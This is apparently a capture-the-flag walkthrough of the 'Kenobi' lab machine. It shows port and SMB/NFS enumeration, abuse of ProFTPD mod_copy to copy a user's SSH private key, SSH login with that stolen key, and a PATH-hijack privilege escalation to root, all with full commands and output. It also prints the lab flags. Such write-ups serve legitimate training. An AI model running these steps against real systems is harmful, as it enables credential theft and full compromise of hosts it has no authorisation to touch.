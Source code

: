 # Kenobi
----

## Port Scanning
```sh
nmap -sS -sV -O kenobi >> ports.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 21:10 EDT
Nmap scan report for kenobi (10.10.75.33)
Host is up (0.17s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          ProFTPD 1.3.5
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind      2-4 (RPC #100000)
139/tcp  open  netbios-ssn?
445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs          2-4 (RPC #100003)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

```
### Samba
![image](https://github.com/user-attachments/assets/9272d0a8-8aa8-4363-be39-e082568b9d88)
- **Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system. Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.**
![image-1](https://github.com/user-attachments/assets/529e7cf2-d792-4d14-8076-d82c0042b8fa)
```sh
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.75.33

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.75.33\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.75.33\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.75.33\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 27.01 seconds
                                                
```
- **SMB enumeration**
```sh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.75.33
```
- **Getting into SMB anonymous client**
```sh
smbclient //10.10.75.33/anonymous
```
- **Viewing the file we use `more filename.txt` in smb client**

- **For recursively downloading smb client**
```sh
smbget -R smb://10.10.75.33/anonymous
```

### RPCbind

![image-2](https://github.com/user-attachments/assets/4950019a-f3a0-41fc-8d45-2be2a2b82efe)
```sh
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.75.33
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 21:33 EDT
Nmap scan report for kenobi (10.10.75.33)
Host is up (0.17s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
                                          
```
- We can also check via nfs showmount because nfs is also open port

```sh
└─$ showmount -e kenobi
Export list for kenobi:
/var *
```

### ProFtpD

```sh
└─$ searchsploit proftp 1.3.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Me | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                        | linux/remote/36742.txt
-----------------------------
```

![image-3](https://github.com/user-attachments/assets/f7fe6588-239c-4085-87e0-1464d5efe99e)

```sh
└─$ nc kenobi 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.75.33]
SITE CPFR /home/kenobi/.ssh/id_rse\
550 /home/kenobi/.ssh/id_rse\: No such file or directory
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
 SITE CPTO /var/tmp/id_rsa
500 Invalid command: try being more creative
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
- Now its time for mounting to `/var`

```sh
──(root㉿kali)-[/mnt]
└─# mount kenobi:/var /mnt/kenobi 
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls -la /mnt/kenobi 
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Aug  9 21:45 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Aug  9 21:42 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```

```sh
┌──(root㉿kali)-[/mnt]
└─# cp /mnt/kenobi/tmp/id_rsa .
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls                                      
id_rsa  kenobi
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls -la            
total 16
drwxr-xr-x  3 root root 4096 Aug  9 21:49 .
drwxr-xr-x 20 root root 4096 Aug  9 21:45 ..
-rw-r--r--  1 root root 1675 Aug  9 21:49 id_rsa
drwxr-xr-x 14 root root 4096 Sep  4  2019 kenobi
                                                   
```

- **Copying file to current folder from nfs mount**

```sh
 cp /mnt/kenobi/tmp/id_rsa .
```  

```sh
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# sudo chmod 600 id_rsa 
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ssh -i id_rsa kenobi@10.10.75.33
The authenticity of host '10.10.75.33 (10.10.75.33)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.33' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

### PrivEsc

![image-4](https://github.com/user-attachments/assets/20d57f71-ddb3-463b-a0f0-9f0bd1b42301)

```sh
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02

```
